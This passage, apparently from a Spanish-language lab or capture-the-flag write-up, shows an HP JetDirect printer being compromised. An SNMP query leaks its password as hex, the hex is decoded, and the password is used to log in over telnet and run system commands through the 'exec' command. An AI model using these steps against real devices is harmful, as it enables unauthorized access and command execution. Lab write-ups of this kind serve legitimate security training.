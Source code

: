 Al realizar la ejecución del comando que se nos indicaba en el blog, logramos obtener el mismo resultado anterior.

```bash
❯ snmpwalk -v 2c -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
```

Este resultado s eencuentra en hexadecimal, al convertirlo en ASCII, logramos obtener la contraseña de la impresora de red.

```basic
❯ echo '50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135' | xxd -r -p; echo
P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i	IY�aA�"1&1A5
```

Probamos de acceder nuevamente a `telnet` e ingresamos las credenciales obtenidas. Verificamos que logramos acceder a la impresora correctamente.

Por otro lado, verificamos que dispone de un comando `exec` que al parecer permite ejecutar comandos. Al ejecutar un comando `exec id` verificamos que logramos ejecutarlo sin problemas.

```bash
❯ telnet 10.10.11.107
Trying 10.10.11.107...
Connected to 10.10.11.107.
Escape character is '^]'.

HP JetDirect

Password: P@ssw0rd@123!!123

Please type "?" for HELP
> ?

To Change/Configure Parameters Enter:
Parameter-name: value <Carriage Return>

Parameter-name Type of value
ip: IP-address in dotted notation
subnet-mask: address in dotted notation (enter 0 for default)
default-gw: address in dotted notation (enter 0 for default)
syslog-svr: address in dotted notation (enter 0 for default)
idle-timeout: seconds in integers
set-cmnty-name: alpha-numeric string (32 chars max)
host-name: alpha-numeric string (upper case only, 32 chars max)
dhcp-config: 0 to disable, 1 to enable
allow: <ip> [mask] (0 to clear, list to display, 10 max)

addrawport: <TCP port num> (<TCP port num> 3000-9000)
deleterawport: <TCP port num>
listrawport: (No parameter required)

exec: execute system commands (exec id)
exit: quit from telnet session
> exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```
